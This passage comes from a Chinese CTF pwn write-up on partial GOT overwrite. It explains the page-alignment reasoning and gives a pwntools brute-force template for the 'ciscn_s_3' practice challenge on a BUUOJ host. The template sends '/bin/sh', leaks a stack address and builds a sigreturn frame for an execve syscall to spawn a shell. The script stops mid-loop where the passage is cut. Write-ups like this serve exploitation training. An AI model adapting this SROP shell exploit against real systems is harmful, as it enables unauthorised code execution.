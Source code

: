 

#### 0x3.2.partial_overwrite

##### (1)前置知识

针对没有泄露的赛题，可以考虑partial_overwrite改写`got`表，实现system，因为一般而言，大部分libc函数，里面都存在syscall，所以syscall偏移和函数head_addr差别不会太大。

考虑对于一个`got`表中的64位地址:  0xXXXXXXXXXXXXX， 假设其附近的syscall地址后三位偏移为0xaaa(请确定这个偏移和got内函数偏移只有最后四个16位数字不同)， 因为libc装载地址以页为单位，后三位是确定0x000，那么partial_overwrite覆盖后面两个字节， 即覆盖`got`为0xXXXXXXXXfaaa，那么有1/16的几率恰好syscall

##### (2)爆破脚本写法

一个爆破脚本模板:

```python
from pwn import *
import sys

elf ='./ciscn_s_3'
remote_add = 'node4.buuoj.cn'
remote_port = 29554

main_add = 0x40051d
off = 0x130
system_add = 0x400517
rtframe = 0x4004da
ret_add = 0x4004e9

i = 0

while i < 20:
    try:
        context.log_level = 'debug'
        context.arch = 'amd64'
        if sys.argv[1] == 'r':
            p = remote(remote_add, remote_port, timeout = 1)
        elif sys.argv[1] == 'd':
            p = gdb.debug(elf)
        else:
            p = process(elf, timeout = 1)
        payload1 = b'/bin/sh\0' + cyclic(0x8)
        payload1+= p64(main_add)

        p.sendline(payload1)

        stack_add = u64(p.recv(0x28)[-8::]) - off

        frame = SigreturnFrame()
        frame.rax = 0x3b
        frame.rdi = stack_add
        frame.rsi = 0
        frame.rdx = 0
        frame.rsp = stack_add
        frame.rip = system_add

        payload = b'/bin/sh\0' + cyclic(0x8)
        payload+= p64(rtframe)
        payload+= p64(system_add)
        payload+= bytes(frame)


        #p.sendline('a')
        #p.recvuntil('\0')
        p.sendline(payload)
```